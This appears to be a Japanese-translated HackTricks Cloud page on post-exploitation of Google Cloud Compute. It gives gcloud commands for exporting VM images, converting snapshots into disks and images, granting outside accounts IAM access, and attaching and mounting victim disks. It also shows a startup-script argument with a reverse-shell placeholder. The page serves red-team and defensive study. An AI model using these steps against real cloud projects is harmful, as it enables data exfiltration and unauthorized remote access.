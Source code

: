# GCP - Compute Post Exploitation

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
- **ハッキングトリックを共有するためにPRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出**する

</details>

## Compute

ComputeおよびVPC（ネットワーキング）の詳細については、以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### イメージのエクスポートとローカルでの検査

これにより、攻撃者は既存のイメージ内に含まれるデータにアクセスしたり、実行中のVMの新しいイメージを作成してそのデータにアクセスしたりできますが、実行中のVMにアクセス権がなくても可能です。

VMイメージをバケットにエクスポートしてから、次のコマンドでローカルにダウンロードしてマウントすることができます：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するために、攻撃者はストレージバケットに対する特権と、確実に**cloudbuildに対する特権**が必要です。なぜなら、この**サービス**がエクスポートを実行するように求められるからです。\
さらに、これが機能するためには、codebuild SAとcompute SAに特権のある権限が必要です。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` には次の権限が必要です:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

そしてSA `<project-id>-compute@developer.gserviceaccount.com` には次の権限が必要です:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### スナップショットとディスクのローカルエクスポートと検査

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換**し、**前のセクション**に従って、そのイメージをローカルで検査することは可能です

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### イメージを検査してVMを作成する

攻撃者がイメージを作成した場所から**イメージに保存されているデータ**または**実行中のVM**内部にアクセスすることを目的として、イメージに外部アカウントへのアクセス権を付与することが可能です。
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それを元に新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もしイメージに外部アカウントアクセス権限を与えられない場合は、被害者のプロジェクトでそのイメージを使用してVMを起動し、**メタデータを実行して逆シェルを作成**し、次のパラメータを追加してイメージにアクセスできます：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクの検査とVMへのアタッチ

**ディスクまたはスナップショットに保存されているデータにアクセスする目的で、スナップショットをディスクに変換し、ディスクをイメージに変換して前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセス権限を付与**することもできます（スナップショットが始点の場合は、スナップショットにアクセス権限を付与するか、それからディスクを作成します）。
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**します：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM内のディスクをマウントします：

1. **VMにSSH接続**します：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定**します：VM内に入ったら、ディスクデバイスをリストアップして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウント**します（新しいまたは生ディスクの場合）：
*   マウントポイントを作成します：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントします：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

スナップショットまたはディスクに外部プロジェクトへのアクセス権を与えることができない場合は、これらのアクションをスナップショット/ディスクと同じプロジェクト内のインスタンスで実行する必要があります。
